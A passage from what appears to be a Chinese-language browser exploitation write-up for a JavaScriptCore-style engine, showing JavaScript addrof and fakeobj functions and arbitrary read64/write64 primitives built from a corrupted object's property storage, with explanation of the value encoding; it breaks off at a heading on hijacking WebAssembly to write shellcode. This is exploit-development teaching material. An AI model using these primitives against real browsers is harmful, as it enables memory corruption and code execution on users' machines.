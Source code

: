 ```

debug(describe(unboxed));
debug(describe(boxed));
debug(describe(victim));

function NewAddressOf(obj) `{`
   boxed[0] = obj;
   return u64f(unboxed[0]);
`}`

function NewFakeObject(addr_l,addr_h) `{`
   var addr = p64f(addr_l,addr_h);
   unboxed[0] = addr;
   return boxed[0];
`}`
```

#### <a class="reference-link" name="%E6%9E%84%E9%80%A0read64%E5%92%8Cwrite64%E5%8E%9F%E8%AF%AD"></a>构造read64和write64原语

```
function read64(addr_l,addr_h,index = 0) `{`
   //必须保证在vicim[-1]处有数据，即used slots和max slots字段，否则将导致读取失败
   //因此我们换用另一种方法，即利用property去访问
   hax[1] = p64f(addr_l + 0x10,addr_h);
   return NewAddressOf(victim.prop);
`}`

function write64(addr_l,addr_h,double_val) `{`
   hax[1] = p64f(addr_l + 0x10,addr_h);
   victim.prop = double_val;
`}`
```

这里，我们不使用数组的方式去实现任意地址读写，因为数组的方式需要保证`used slots和max slots字段`满足要求，任意地址处不可能一直满足这个要求，因此我们使用外属性的方式，前面介绍过，这种外部属性就存储于`butterfly`前面，使用read的时候，最后需要加上`NewAddressOf`进行转换，因为属性的存储是按照前面介绍的这个

> <p>Pointer： [0000][xxxx:xxxx:xxxx]（前两个字节为0，后六个字节寻址）<br>
Double： [0001～FFFE][xxxx:xxxx:xxxx]<br>
Integer： [FFFF][0000:xxxx:xxxx]（只有低四个字节表示数字）<br>
False： [0000:0000:0000:0006]<br>
True： [0000:0000:0000:0007]<br>
Undefined： [0000:0000:0000:000a]<br>
Null： [0000:0000:0000:0002]</p>

方式存储的，显然我们读取的数据不满足这个要求，直接使用victim.prop返回的值会导致崩溃，当我们需要读取的数据是一些地址的时候，由于地址往往就48位，因此其高2字节为0，此时这个数据会被当成一个对象地址，因此为了拿到这个值，需要加上一层`NewAddressOf`，同理，在write64的时候如果写入的数据高2字节为0，需要加上一层`NewFakeObject`，由于我们写入的是double，就不需要，但是double数据会导致第7个字节的低4位为1，因此，我们不能一次性写入8个字节的完好数据，但是我们可以保证低4字节的数据被正确写入到目标处，因此，我们只需将数据拆分为4字节一组，然后包装为8字节的double，即可依次将数据完整的写入。

#### <a class="reference-link" name="%E5%8A%AB%E6%8C%81WASM%EF%BC%8C%E5%86%99shellcode"></a>劫持WASM，写shellcode

